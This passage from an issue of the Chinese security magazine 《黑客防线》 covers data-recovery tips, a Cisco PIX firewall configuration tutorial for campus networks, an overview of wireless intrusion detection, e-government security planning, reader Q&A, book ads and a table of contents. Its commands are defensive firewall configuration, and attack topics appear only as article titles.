> 注：一般的数据恢复公司，当数据恢复率达到 75% 就可全部收费，也记作完全恢复，按全价收费。达到 35% 恢复就按半价收费，至于这种方式合不合理，目前没有相关法规规定。

#### 平时值得注意的问题

在工作中，笔者发现了一些典型问题，这里说一些和大家相关的，希望读者以后注意。

- 1. 有一些人喜欢低格硬盘，且乱用低格软件。这存在几个潜在问题：硬盘低级格式化会设置扇区交叉因子值。

交叉因子值对硬盘读写速度有很大影响，应与硬盘转速、CPU 速度、主板相匹配，不然会影响硬盘性能，久之会造成硬盘读写错误，造成数据丢失。所以，不同的厂商提供的低格软件不要乱用。虽然硬盘各项参数看似相似，它们默认的间隔因子可能不同。硬盘出厂前的初始低级格式化是由生产线上的专用磁头完成的，而使用者在硬盘出厂后的使用过程中用软件进行低级格式化，使用的是硬盘本身的读写磁头，其读写性能、读写准确度和生产线上的专用磁头没法比，格式化的效果必然不如生产线的初始低级格式。

> 注 1：交叉因子，有的硬盘厂商技术手册上也叫间隔因子，是指硬盘在读写周期中按逻辑顺序读写扇区之间的物理号间隔数，即正在读写的扇区与紧接着要读写的扇区之间的差值。

> 注 2：每个硬盘都有伺服口，就是大家平时说的真空口（硬盘内不是真空的，请大家注意）。硬盘的初始格式化就是在盘片封装之后通过伺服口用专门磁头格式化的。

> 注 3：低级格式化是硬盘高损耗的操作，其会降低磁盘寿命，如非必要，尽量别做。

- 2. 不要乱用分区软件。有的分区软件分区时，扇区地址的定位存在问题，这是一个很严重的隐患，会造成分区溢出，且数据会部分被覆盖。目前分区管理软件五花八门，尽量选择主流分区软件。推荐 PQ，说它是分区标准，一点不为过。

加卷标是个好习惯，但最好别加中文卷标。在对硬盘进行分区操作之前，一定对分区情况很了解才可以操作。有的客户说，你把 C 盘帮我装个操作系统。那你去格式化 C 盘前要看清楚分区结构，有卷标的话再确认一下卷标。客户不懂技术细节，一慌了就不会找你了。有的时候客户是不明白 NTFS 或者 Windows 98 的盘符交错问题，不是他说的 C 就是你想要操作的那个 C 盘，一些对分区的操作会造成非本意的后果。使用镜像恢复软件同样要注意这个问题，不同备份软件对文件系统支持情况都不一样。

- 3. 定期做碎片整理是个好习惯（视你的文件系统情况）。做磁盘整理，不单纯是为了提高硬盘的利用空间，增强硬盘的读写能力，减少坏道发生几率，而且，当数据出现问题，碎片文件越多的硬盘数据恢复难度越大，工作中最头疼的就是碎片文件多的硬盘，工作量大得惊人。

- 4. 数据备份非常重要。

根据 3M 公司的最新调查，在美国服务器与磁带机的连接已经达到 60% 以上。而在国内，只有不到 15% 的服务器连有备份设备，这就意味着 85% 以上的服务器中的数据面临着随时有可能遭到全部破坏的危险。很多人忽视数据备份工作，出了问题才后悔。希望从事相关工作的朋友注意。

提示：平时一定要做好数据备份工作，当数据出现问题时，可以最快地恢复成原样。

### 编后记

> 记得 RedCodeII 刚出现时，杀毒软件公司和不知情的媒体炒作这个老百姓不会感染的病毒，引起阵阵恐慌；杀毒软件杀毒后造成的文件破损，甚至分区丢失问题屡屡出现。每次有病毒出现，各杀毒软件公司都声称是自己在国内最先截获，但很明显，国内只可能有一家公司最先查获，国内公司把精力放在宣传，而不是杀毒软件本身的技术水平上，这很可悲。去 Symantec 的网站看看它的作风，Mydoom 刚出现的时候，国内杀软公司大肆炒作，说会发起多么大的 DOS 攻击；Symantec 很冷静地分析说，由于病毒自身问题，感染该病毒的机器发起 DOS 攻击的机会只有 25%；随着进一步研究得出只有 7% 的机会才可以发起 DOS 攻击。

对于这个问题，不能单纯从气度和风范上解释，实质还应从规则、法律来思考。国内的数据恢复还处在不完善的时候，来看看国外在做什么呢？国外的相关研究比较成熟，尤其在计算机取证方面。他们注重理论服务于实践：在伊拉克，英美军方目前进行的一项工作就是收集证据用来起诉战争罪犯。英国 LIAG（Land Information Assurance Group）为军方提供了一项专门的设备，称为“移动取证实验室”，用来恢复和分析萨达姆政府遗弃和留下的存储设备中的数据。数据恢复的一个研究方向是服务于计算机取证，计算机取证研究的是如何为调查计算机犯罪提供彻底、有效和安全的技术。其关键是确保证据的真实性、可靠性、完整性和符合法律规定，它和数据恢复是交叉学科，在这里我就不做太多说明。计算机取证行业与数据恢复息息相关，很有前途，也算刚起步。国内搞技术存在固步自封的毛病，这很不利于技术进步。我觉得我们做这种技术的人应该很好地协作起来，不断地研究、探索，才能从根本上提高我们国内数据恢复的水平，同国际接轨，甚至超越他们。”这是南京环网数据安全公司工程师王周松和我聊天时说的，代表我的心声。

> 刘流：相信我们的读者中一定有不少是校园网的网管员，他们也比较渴望从我们的杂志中获取有关校园网安全的知识，以保护各自所在的校园网的安全。为此，我们特意策划了一篇关于校园网安全的文章，主要讲述如何结合 Cisco PIX 防火墙保障校园网的安全，以飨广大校园网的网管员朋友们！

### PIX 在高校校园中的规划与配置

文／图 戴宇平

校园网络发展到今天，大多都已成为了 Internet 的一部分，这就使得校园网的安全性显得尤其重要。这里我们结合 Cisco PIX 防火墙谈谈如何保障校园网的安全。

为 slot0、slot1，slot0 为外网接口，slot1 为内网接口。如果这些接口网卡为以太网卡，则记 ethernet0 为外网接口，ethernet1 为内网接口。

我们可用 nameif 命令定义接口的安全级，防火墙内接口的安全级最高，外接口的安全级最低；其他接口的安全级介于内接口的安全级和外接口的安全级之间。

#### 防火墙的部署

如图 1 所示的网络，其中的防火墙用于将内网与外网隔开，其中防火墙的 E0 口接外网，E1 口接内网，所有内网和外网之间流动的数据都必须通过防火墙。CISCO PIX 防火墙是许多单位所选择的主流防火墙之一。以下就如何配置 CISCO PIX 防火墙，使外网能访问内网中 Web 服务器、Mail 服务器的相应功能，同时允许内网中的指定工作站能用 Telnet 登录到防火墙的配置。

#### 配置 CISCO PIX 防火墙

防火墙上的接口按从左到右的顺序标识。

安全级之间，除非有特别限制，从高安全级到低安全级的数据是允许的。用 ip address 命令定义接口的 IP 地址，命令格式及具体的命令如下：

```text
nameif 格式为：
nameif hardware-id if-name security-level

具体的命令如下：
nameif ethernet0 outside security0
nameif ethernet1 inside security100

定义防火墙接口的 IP 地址（用 show ip 命令可查看已定义的接口 IP 地址），格式为：
ip address if-name ip-address [net-mask]

具体的命令如下：
ip address inside 192.168.100.1 255.255.255.0
ip address outside 10.1.1.1 255.255.255.0

允许高安全级部分（内网）建立到低安全级部分（外网）的连接，用 nat 和 global 命令实现（用 show nat 和 show global 命令可查看已键入的 nat 和 global 命令情况）。有关 nat 和 global 的命令格式为：
nat [(if-name)] nat-id local-ip [net-mask [max-conns [emb-limit]]] [no random seq]
no nat [(if-name)] nat-id local-ip [net-mask [max-conns [emb-limit]]] [no random seq]
global [(if-name)] nat-id global-ip [-global-ip] [netmask global-mask]
no global [(if-name)] nat-id global-ip [-global-ip] [netmask global-mask]
show nat
show global

nat 和 global 命令中的 nat-id 必须一样。当 nat-id 为 0 时，表示不进行 NAT（network address translation）。具体的命令如下：
nat (inside) 5 0.0.0.0 0.0.0.0
global (outside) 5 10.1.1.10-10.1.1.20 netmask 255.255.255.0
global (outside) 5 10.1.1.8 netmask 255.255.255.0
```

此配置表明，内网的任何地址都可建立到外网的连接，内网数据经防火墙向外网传送时，防火墙将从内网出来的地址转换为地址池 10.1.1.10-10.1.1.20 的最高未用 IP 地址。这样一来，内网出来的地址当然是不可见的。

当地址池（此处是 10.1.1.10-10.1.1.20）所含的地址很少时（如互联网服务提供者所提供的地址），配置防火墙时，总是在 NAT 后加一个 PAT（port address translation），以保证可以建立足够多的连接。以上配置中第一个 global 语句对应 NAT，当其地址池中的地址从高到低被用完时，配置中第二个 global 语句对应 PAT 地址被采用（此对应的地址比地址池中任何地址都低，即地址 10.1.1.8 比地址池 10.1.1.10-10.1.1.20 中任何地址都低），PAT 因为是端口地址转换，可以对应多个连接。防火墙的这一特性（NAT、PAT）可用于紧缺的 IP 地址资源（比如外网所用的几个地址是企业申请到的有限个互联网地址，利用防火墙的这一特性，则内网中的任何工作站都可以根据这些地址上网）。如缺少此步骤，防火墙的网络地址转换（NAT）和端口地址转换（PAT）功能就不能实现。

而在防火墙内设置缺省路由则用 route 命令实现，其格式为：

```text
route if-name ip-address net-mask gateway-ip [metric]
```

具体的命令如下：

```text
route outside 0.0.0.0 0.0.0.0 10.1.1.2 1
```

这条命令表示，要送往地址 0.0.0.0 0.0.0.0（即 IP 地址 0.0.0.0 及掩码 0.0.0.0）的数据包必须送到外网的路由器（10.1.1.2）。命令中的最后一位数字“1”表示此路由器在 1 跳远的地方（即在与防火墙直接相连的网段上）。用 show route 命令可查看在防火墙内设置的缺省路由。

允许在内网、外网之间使用 ping 命令，具体的命令如下：

```text
conduit permit icmp any any
```

此命令允许在内网、外网之间使用 ping 命令，如果没有此命令，内网、外网之间将不能使用 ping 命令。

接下来要设置能从 Console 口用 telnet 登录到防火墙的用户。单个用户能从防火墙的 Console 口直接登录到防火墙，但为了管理方便，我们还需要内网用户能从 Console 口用 telnet 登录到防火墙，具体的命令如下：

```text
telnet 192.168.100.5 255.255.255.255 telnet
timeout 15
```

或者

```text
telnet 192.168.100.0 255.255.255.0 telnet
timeout 15
```

第一组 telnet 语句设置工作站 192.168.100.5 是能用 telnet 登录到防火墙的用户，第二组 telnet 语句设置网段 192.168.100.0 上的所有用户是能用 telnet 登录到防火墙的用户。telnet timeout 15 表示此连接只能保持 15 分钟。

然后设置外网通过防火墙对内网服务器的访问。缺省时，防火墙拒绝外网对内网工作站或服务器的任何访问；为了让外网通过防火墙对内网中指定的服务器进行某些具体的访问，可用 static 和 conduit 命令实现（用 show static 和 show conduit 命令可查看已键入的 static 和 conduit 命令情况）。具体的命令如下：

```text
static (inside,outside) 10.1.1.7 192.168.100.4 netmask 255.255.255.255
conduit permit tcp host 10.1.1.7 eq smtp any

static (inside,outside) 10.1.1.6 192.168.100.3 netmask 255.255.255.255
conduit permit tcp host 10.1.1.6 eq www any
```

防火墙根据第一组 static 和 conduit 命令，将全局 IP 地址 10.1.1.7 对应到内网的 Mail 服务器 192.168.100.4，外网的任何用户能以该功能访问 10.1.1.7（Mail 服务器 192.168.100.4 对外网所显示的地址）。防火墙根据第二组 static 和 conduit 命令，将全局 IP 地址 10.1.1.6 对应到内网的 Web 服务器 192.168.100.3，外网的任何用户能以该功能访问 10.1.1.6（Web 服务器 192.168.100.3 对外网所显示的地址）。

为了让防火墙知道如何将包发往 20.11.11.0/8，还可在防火墙中设置静态路由。使用 route 命令实现，其格式为：

```text
route if-name ip-address netmask gateway-ip [metric]
```

具体的命令为：

```text
route inside 20.11.11.0 255.0.0.0 192.168.100.2 1
```

此命令表示，要送往地址 20.11.11.0 255.0.0.0 的数据包，须先送到内网的路由器（192.168.100.2），命令中的最后一位数字“1”表示此路由器在 1 跳远的地方（即在与防火墙直接相连的网段上）。

如果需要将所输入的配置存储，可以执行命令：

```text
write memory
```

另外，在配置过程中，除了以上步骤外，防火墙还需其他步骤以实现其他用户需要的功能，相应的操作可根据随机手册或其他资料进行。

按以上设置配置好 PIX 防火墙后，PIX 防火墙外部的攻击者将无法在外部连接上找到可以连接的开放端口，也不可能判断出内部网的 Web 和 Mail 服务器的 IP 地址，即使知道了内部主机的 IP 地址，想直接对它们进行 Ping 和连接也是不可能的。这样就可以对内部网的 Web 和 Mail 服务器进行有效的保护，防止来自外部的非法攻击。

> **编后**
>
> 本文对 PIX 防火墙的描述，需要读者对 Cisco 的产品有一定的使用经验，并且有初步的 PAT、NAT 和 VPN 等原理知识。但是限于篇幅，作者不能描述得特别清楚，故在此给初学者一个比较合适的提高途径。如果你从来没有接触过 Cisco 的东西，首先要去看看基本的 Cisco 概念；网站 http://www.ossh.org 上提供了一部分这方面的资料。如果你不熟悉 VPN 原理，可以参考一些 VPN 理论的书籍，但是个人不推荐你去看 Cisco 的书籍，因为知识面比较窄；另外，如果要实现比较复杂的 VPN 权限控制，路由技术和防火墙技术也是必须的。

### 全副武装看无线 IDS

刘流

有线网络里面存在着看无休止的战争，让我们激动异常、热血沸腾，那无线网络中有没有这样的战场呢？回答是必然的！无线网络在短短的时间内迅速地崛起，带给我们的不仅仅是高速的享受，并且还夹杂着令人心寒的无线入侵。今天就让我们一起来看看无线网络中的安全防护该如何去做？用什么样的方式才能较好地防护无线网络的安全性？

- 难度等级：高
- 前置知识：无线网络的基础知识、无线网络 sniffer

随着黑客技术的提高，无线局域网（WLANs）受到越来越多的威胁。配置无线基站（WAPs）的失误导致会话劫持以及拒绝服务攻击（D.o.S）都像瘟疫一般影响着无线局域网的安全。无线网络不但因为基于传统有线网络 TCP/IP 架构而受到攻击，还有可能受到基于电气和电子工程师协会（IEEE）发行 802.11 标准本身的安全问题而受到威胁。为了更好地检测和防御这些潜在的威胁，无线局域网也使用了一种入侵检测系统（IDS）来解决这个问题。以至于没有配置入侵检测系统的组织机构也开始考虑配置 IDS 的解决方案。这篇文章将为你讲述，为什么需要无线入侵检测系统，无线入侵检测系统的优缺点等问题。

#### 来自无线局域网的安全

无线局域网容易受到各种各样的威胁。像 802.11 标准的加密方法和有线对等保密（Wired Equivalent Privacy）都很脆弱。在《Weaknesses in the Key Scheduling Algorithm of RC-4》文档里就说明了 WEP key 能在传输中通过暴力破解攻击。即使 WEP 加密被用于无线局域网中，黑客也能通过解密得到关键数据。

黑客通过欺骗（rogue）WAP 得到关键数据。无线局域网的用户在不知情的情况下，以为自己通过很好的信号连入无线局域网，却不知已遭到黑客的监听了。随着低成本和易于配置造成了现在的无线局域网的流行，许多用户也可以在自己的传统局域网……网架设无线基站（WAPs），随之而来的一些用户在网络上安装的后门程序，也造成了对黑客开放的不利环境。这正是没有配置入侵检测系统的组织机构开始考虑配置 IDS 解决方案的原因。或许架设无线基站的传统局域网用户也同样面临着遭到黑客监听的威胁。

基于 802.11 标准的网络还有可能遭到拒绝服务攻击（DoS）的威胁，从而使得无线局域网难于工作。无线通信由于受到一些物理上的威胁会造成信号衰减，这些威胁包括：树、建筑物、雷雨和山峰等破坏无线通信的物体。像微波炉、无线电话也可能威胁基于 802.11 标准的无线网络。黑客通过无线基站发起的恶意拒绝服务攻击（DoS）会造成系统重启。另外，黑客还能通过上文提到的欺骗 WAP 发送非法请求来干扰正常用户使用无线局域网。

另外一种威胁无线局域网的是 ever-increasing pace。这种威胁确实存在，并可能导致大范围地破坏，这也正是让 802.11 标准越来越流行的原因。对于这种攻击，现在暂时还没有好的防御方法，但我们会在将来提出一个更好的解决方案。

#### 无线入侵检测

入侵检测系统（IDS）通过分析网络中的传输数据来判断破坏系统和入侵事件。传统的入侵检测系统仅能检测和对破坏系统作出反应。如今，入侵检测系统已用于无线局域网，来监视分析用户的活动，判断入侵事件的类型，检测非法的网络行为，对异常的网络流量进行报警。

无线入侵检测系统同传统的入侵检测系统类似。但无线入侵检测系统加入了一些无线局域网的检测和对破坏系统反应的特性。无线入侵检测系统可以通过提供商来购买，为了发挥无线入侵检测系统的优良性能，他们同时还提供无线入侵检测系统的解决方案。如今，在市面上流行的无线入侵检测系统是 AirDefense RogueWatch 和 AirDefense Guard。像一些无线入侵检测系统也得到了 Linux 系统的支持。例如：自由软件开放源代码组织的 Snort-Wireless 和 WIDZ。

#### 无线入侵检测系统架构初探

无线入侵检测系统用于集中式和分散式两种。

集中式无线入侵检测系统通常用于连接单独的 sensors，搜集数据并转发到存储和处理数据的中央系统中。分散式无线入侵检测系统通常包括多种设备来完成 IDS 的处理和报告功能。分散式无线入侵检测系统比较适合较小规模的无线局域网，因为它价格便宜和易于管理。当过多的 sensors 需要时，有着数据处理 sensors 花费将被禁用。所以，多线程的处理和报告的 sensors 管理比集中式无线入侵检测系统花费更多的时间。

无线局域网通常被配置在一个相对大的场所。像这种情况，为了更好地接收信号，需要配置多个无线基站（WAPs），在无线基站的位置上部署 sensors，这样会提高信号的覆盖范围。由于这种物理架构，大多数的黑客行为将被检测到。另外的好处就是加强了同无线基站（WAPs）的距离，从而能更好地定位黑客的详细地理位置。

## 物理回应的基础概念

物理定位是无线入侵检测系统的一个重要部分。针对 802.11 的攻击经常在接近情况下很快地执行，因此对攻击的回应就是必然的了，像一些入侵检测系统的一些行为封锁非法的 IP。就需要部署找出入侵者的 IP，而且一定要及时。不同于传统的局域网，黑客可以攻击远程网络，无线局域网的入侵者就在本地。通过无线入侵检测系统就可以估算出入侵者的物理地址。通过 802.11 的 sensor 数据分析找出受害者，就可以更容易定位入侵者的地址。一旦确定攻击者的目标缩小，特别反应小组就拿出 Kismet 或 AiroPeek，根据入侵检测系统提供的线索来迅速找出入侵者。

（ps：策略执行：无线入侵检测系统不但能找出入侵者，它还能加强策略。通过使用强有力的策略，会使无线局域网更安全。）

威胁检测——无线入侵检测系统不但能检测出攻击者的行为，还能检测到 rogue WAPs，识别出未加密的 802.11 标准的数据流量。

为了更好地发现潜在的 WAP 目标，黑客通常使用扫描软件。NetStumbler 和 Kismet 这样的软件来使用全球卫星定位系统（Global Positioning System）记录他们的地理位置。这些工具正因为许多网站对 WAP 的地理支持而变得流行起来。

比探测扫描更严重的是，无线入侵检测系统检测到的 DoS 攻击。DoS 攻击在网上非常普遍。DoS 攻击都是因为建筑物阻挡造成信号衰减而发生的。黑客也喜欢对无线局域网进行 DoS 攻击。无线入侵检测系统能检测黑客的这种行为，像伪造合法用户进行泛洪攻击等。

除了上文的介绍，无线入侵检测系统还能检测到 MAC 地址欺骗。它是通过一种顺序分析，找出那些伪装 WAP 的无线上网用户。

#### 无线入侵检测系统的缺陷

虽然无线入侵检测系统有很多优点，但缺陷也是同时存在的。因为无线入侵检测系统毕竟是一门新技术。每个新技术在刚应用时都有一些 bug，无线入侵检测系统或许也存在着这样的问题。随着无线入侵检测系统的飞速发展，关于这个问题也会慢慢解决。

#### 结论

无线入侵检测系统未来将会成为无线局域网中的一个重要部分。虽然无线入侵检测系统存在着一些缺陷，但总体上优大于劣。无线入侵检测系统能检测到扫描、DoS 攻击和其他 802.11 的攻击，再加上强有力的安全策略，可以基本满足一个无线局域网的安全需求。随着无线局域网的快速发展，对无线局域网的攻击也越来越多，需要一个这样的系统也是非常必要的。

#### 编后语

文章作者力图通过介绍无线入侵技术让读者朋友们知道无线网络中的入侵与反入侵技术。先有“来自无线局域网的安全”，然后才有其应对的办法。虽然在理论上讲解比较抽象，但我们相信随着无线网络的逐步普及，大家一定会深刻地体会到这一点的。同时，我们祝福无线网络一路走好！

### TIPS：电子政务安全模型

电子政务系统是一个复杂的多层次应用系统，根据不同的应用环境和安全要求可分为四个相对独立的网络安全管理域：内网核心数据层、内网办公业务层、外网公众信息服务层和网间信息交换层。

电子政务安全体系的部署应遵循确定安全需求、安全状态评估、安全策略制定（含各种管理制度）、安全方案设计、安全方案实施、安全制度培训的顺序进行。前期的确定安全需求和安全状态评估是整个安全体系部署中最重要的两个步骤，它们是后续制定安全策略和方案设计的依据，决定了整个安全体系的可靠性。

全面的安全需求调查包括两个方面：系统安全的功能需求和安全置信度需求。

系统安全的功能需求：安全审计需求、安全连接需求、身份认证、信息机密需求、数据保护需求以及安全管理需求。

安全置信度需求：安全保护轮廓评估、安全目标评估、系统配置维护管理、用户手册规范、产品生命周期支持以及测试等内容。

安全状态评估通常采用五种方式来了解安全漏洞：

- 1. 对现有安全策略和制度进行分析；
- 2. 参照一些通用的安全基线（Security BaseLine）来考察系统安全状态；
- 3. 利用安全扫描工具来发现一些技术性的常见漏洞；
- 4. 允许一些有经验的人在监管之下对特定的机密信息和区域做模拟入侵系统（渗透攻击测试），以确定特定区域和信息的安全等级；
- 5. 对该系统的安全管理人员和使用者进行访谈，以确定安全管理制度的执行情况和漏洞。

同时应注意的是，安全体系的部署并非一劳永逸的事情，随着系统安全状态的动态变化，应定期对系统进行安全评估和审计，搜寻潜在的安全漏洞并修正错误安全配置。

总之，电子政务的安全系统必须从管理和技术两方面来加强安全性，以动态的眼光来管理安全，在严谨的安全需求分析和安全评估的基础上运用合理的安全技术来实现电子政务的整体安全。


### 本刊失窃新山寨

成功攻破我们攻防实验室关卡的两位西安的朋友，在杂志上公布了详细地址后，竟然有了重大的意外收获：西安的一家刚成立的安全公司直接给编辑部打来电话，询问这两位朋友的详细联系方式，目的很简单——他们公司需要这样的人才，准备将他们两人直接挖过去！更让人欣慰的是：他们的判断标准让我们倍感荣耀——“能直接通过黑防实验室前 9 关，说明基本的网络安全技能已经有了，而且在某方面一定有自己的建树，这样的人对我们来说就是最好的人才，经过短时间的培养，相信一定能成为公司的顶梁柱！”多么让人兴奋的话语！当我听到这话的时候，感动异常！多年的努力没有白费，黑防正在逐渐形成一个群体、一种氛围、一支队伍！相信通过大家的努力，明天会更好！

河北 刘可：我一直对防火墙和 IDS 有很多疑问，它们都是分析数据包的工具，但到底有什么区别呢？我查阅了很多书籍没找到相关说明，只能问问大编了，希望能帮帮我。

刘流：大致上说，防火墙是拦截和过滤，IDS 是深层分析和报警。防火墙简单说就是无法防御不通过防火墙的攻击行为，比如有绕过防火墙的通路或者内部发起的攻击行为，而 IDS 系统对于攻击事件具备更深层次分析以及其他的相应能力，两者的选择可以按自己的不同需要而定。

天津 红绿灯：我在看源代码的时候，想看 strcpy 和 fgets 的区别，为什么一个能引起栈溢出，一个不能，就在 gdb 下 disassemble strcpy 和 disassemble fgets，只看到了 *0xXXXXXXXX，我查看这个地址的内容，然后想 disassemble 这个地址范围的内容，可惜不行！急啊！怎么弄？谢谢！

Icefire：这个地址是库函数在 GOT 表中的位置。在程序第一次调用该库函数后，0xXXXXXXXX 处存放的才是真正的函数代码入口地址。要反汇编库函数的方法有好几种，比较简单的一种是先 export LD_BIND_NOW=1，然后再 gdb，这时 disassemble 就能直接看到库函数代码了！

山西 犯得上：我现在由于公司业务，需要将 RedHat 7.2 精简，请问大编，在支持 Apache+PostgreSQL+PHP+kernel+grub+softswitch 的情况下，如何做呢？大概有什么效果呢？

刘流：你可以自己编译内核，定制文件系统，一个基本的系统估计几十兆足够了，然后在此基础上再增加你的那些应用。下面是几个大概的方法：

- 1. 使用 debian 的 mini-linux，安装后 60 多兆，只是 postgres 版本不行，SQL 脚本导入无法正常运行。只能用 RedHat 7.2 的 postgres，郁闷！
- 2. 前提是 Apache+PostgreSQL+PHP+softswitch（20 兆）必须能运行，一张盘的 Linux 很多服务都跑不起来，这个我测试过，行不通。
- 3. 安装的内核也不过 1 兆多，没什么必要，将 kernel modules 的一些文件删除。
- 4. 绝大多数应用都可以打包压缩存放，使用时解压到内存虚拟盘上用，这个方法比较好，值得一试！
- 5. 使用专门为嵌入系统开发的应用，如 busybox。
- 6. 可以使用 upx 压缩一些可执行程序。

大体来讲就是这几个方面了，这样下来，估计你的 RedHat 会在 100M 左右，而且能实现你需要的功能，希望能帮上你。

凤阳 dal：听说 Windows XP 可以支持两个人登录了？很兴奋，请问编辑，是不是真的啊？这样就不用一人远程登录、本地就注销的情况了。

脚本小子：网上现在确实有这样的说法，据微软 Windows XP SP2 新闻讨论组的电脑玩家称，他们发现 XP SP2 终于包含了又一个让用户期待已久的新特性：允许连接会话并发。按照叙述，只要安装并运行 XP SP2 Beta，用户就可以简单地通过修改注册表来达到打开此新特性的效果。进行有效的修改后，用户可以通过控制台或者远程桌面进行多用户同时登录，而在没有加入这个从目前 Windows 2003 当中才有的新特性之前，XP 系统是不允许多用户同时登录的。具体修改方法为：打开注册表编辑器，找到 HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Terminal Server\Licensing Core，建立一个新键，类型为 DWORD，键名为 EnableConcurrentSessions，键值为 1。这样，系统就可以支持这个新特性了。

### 机会不容错过



眨眼间，黑防攻防实验室开展两轮了，从国内首创的全新实战平台正式推出，到现在成功运作两轮实验室，这其中经历很多、感触很多，可以说酸甜苦辣尽在其中！

如果说读者们通过半年或者更长时间的阅读《黑客防线》而了解、掌握了很多网络安全技术的话，我们的实验室就正是将这些书本上的理论知识变成了可以实际操作和掌握的技能。如果有一天你审视自己以往的岁月，或许你会大吃一惊地发现自己进步很快，早已不是昨日那个新手——不必惊奇！很正常的现象，我们一直有信心，长期关注我们杂志并学习的朋友，在半年或者一年的时间内，掌握最新的网络安全知识并不存在问题！当然，相关方面的工作也就很容易找到了！

网络时代的信息交互很强，从 QQ、信箱、BBS 再到各类即时群，一切的信息都在被迅速地传播着，在这样的情况下，实验室的交互性就大大地加强了，往往第一时间发现的漏洞就被很迅速地在网络上传播，无形之中加快了技术的交流效率，这是很让我们兴奋的，希望这样的风气能传播开，让越来越多的朋友加入到我们的群、BBS 中，让大家的技术得到进一步的交流！

现在实验室第 3 轮正风风火火地开展，非常多的朋友参与了进来，同时给我们提了很多意见和建议，很感谢这些朋友，我们会非常重视大家的意见，积极地改进这些不足，希望能提供更好的实验室环境！向往网络安全的你，还在等什么？机会稍纵即逝，一起来建设我们的攻防实验室吧！

# 最新入侵与攻击技术研究

## 特别专题

## 挑战安全专家

- 攻破个人防火墙 …… 6

自从 Internet 快速发展以来，攻击与反攻击之间的矛盾凸显无遗，有时候攻击强悍一些，有时候防护更稳妥，网络世界的定律一直在被我们每个普通网友改写，而防火墙在攻击和防护中则占据着非常重要的作用：防护方便用它来对自己的系统进行最严密的安全防护，攻击方却把防火墙看作大敌，想方设法攻击它！——这样的对抗带来了攻防双方技术的不断进步！本期，我们将为大家在防册上献上最新的防火墙安全设置方案，用来抵抗各类网络攻击。同时，在攻册上，我们刊登最新的攻击防火墙技术，适合每个普通网民观看，因为防火墙就在你的身边，说不定那天被攻击的就是你了！

## 漏洞攻击

- 格式化字符串攻击的奥秘 …… 11
- 用回车与换行实现注入攻击 …… 14
- 就在身边的域名欺骗 …… 16
- Windows heap 溢出新技巧 …… 18
- Mydoom 病毒的利用 …… 19

### 脚本攻击

- 再次挑战 BBSXP 论坛 …… 21

提到 BBSXP，相信大家对 PsKey 兄弟在 2003 年第 6 期发表的“BBSXP 多个文件存在 Sql Injection 漏洞”还印象颇深。对于这款在其以前的说明文档中有“经过将近 3 年的测试，可说是不存在任何 BUG”这句话的论坛软件来说，或许今天又难免尴尬。不过对于广大读者朋友来说，能够感受到的就是更多的惊喜了！

- 逸风下载系统漏洞大曝光 …… 24
- PHP 网站漏洞之我见 …… 29
- 玩转 PHP-Nuke 攻与防 …… 31
- 通过数据库备份巧获 Shell …… 33

### 黑兵器库

- Rootkit 让后门隐藏无踪影 …… 37
- 突破防火墙的利器——隧道攻击 …… 40


**定价：23.8 元**

在本书中，可以看到各种有关网络安全方面的工具代码和代码注释（主要代码一并收录在本书的配套光盘中）。网络上流传的黑客工具很多，但你有没有想过尝试开发自己的黑客工具呢？也许有些朋友会觉得这对于自己来说太过于高深了，但只要看了本书后，你就会明白黑客工具是怎样写出来的！

书中介绍了运用多种开发语言，如 Visual Basic、Visual C++ 等工具来开发，书中的代码部分完全是流行的工具代码，并且都有中文注释，很容易就可以看明白。

书中列举了几位国内著名 Hacker 的代码，并且加上说明提要。在本书的配套光盘中，不仅概括了书中的代码，还收录了其他一些黑客工具代码和相关工具代码以及一些黑客工具等等。


**定价：19.8 元**

《黑客防线》2003 年增刊以 8 个栏目涵盖了黑客技术起步、进阶提高在内的 66 篇全新文章，分类很详细，每篇文章都经过精心挑选打造，是编辑部在长期读者调查的基础上，结合读者的喜好，特约作者撰写汇编而成，每个栏目的文章有一定的梯度，最适合想进一步提高黑客技术的读者阅读。

## 目录 CONTENTS


**定价：19.8 元**

《黑客攻防 One To One》一书收集了广大上网用户经常遇到的网络安全问题，针对这些问题，编者按照“问题”——“分析”——“防范”的思路，条理清晰地告诉你在网络上如何应对黑客可能进行的入侵与反攻击，并对自己的计算机系统进行最有效的防护，以及如何进行反入侵与攻击。内容涵盖了从开始接触网络到熟练应对各种网络攻击的大量技巧，可以说是一本了解黑客入侵手段，从而掌握各种防护对策的最佳入门读物。通过介绍黑客可能采取的攻击手段、黑客攻击的思路、各种入侵工具的结合使用，详细分析了黑客攻击的方法和防范对策，从而对黑客攻击有一个充分的认识。

学习本书不需要专业的网络知识，适用于广大希望增强网络安全意识的网络爱好者阅读。

本书光盘收集了书中解决问题用到的所有工具。另外，还收集了优化系统、提高防范措施所用到的大量共享软件，配合书中解决问题的思路，灵活运用，完全可以做到保证一个系统的安全运行。

汇款地址：北京市中关村邮局 008 信箱

邮政编码：100080

收款人：《黑客防线》邮购部

热线电话：（010）62141446　62141445-8011

E-mail：yougoubu@hacker.com.cn

- Nessus，犀利的双刃剑 …… 44

## 编程解析

- 利用 LPD 请求探查远程操作系统 …… 47
- 程序间通信的各种途径及解析 …… 50
- 利用了类化技术实现 QQ 木马 …… 55
- 暴力破解的艺术 …… 59

暴力破解简单地说就是使用所有可能的字符或数字进行尝试，直到全部试完为止。比如说我们有一个密码，只允许使用两位数字，为获得这个密码我们须得尝试从 00～99 的所有数字（假设是十进制），直到我们找到那个正确数字为止。当前有许多工具是利用暴力技术工作的，包括端口扫描、IP 扫描和电话线路盗用扫描，以及我们非常感兴趣的密码破解！在实际工作中它有许多合法的应用，特别是在安全分析的一些工具中。

## 密界寻踪

- Cracker 初级教程之 blowfish 算法破解 …… 61
- DigiPhoto Gallery v2.4 注册算法分析 …… 64

### 新兵训练营

- 茶后小议蜜罐技术 …… 66
- Windows Server 2003 密码恢复实录 …… 68
- 开着隐形战斗机上网 …… 70

## e生e事

- 柔情 …… 73

## 攻防实验室

### 编读互动

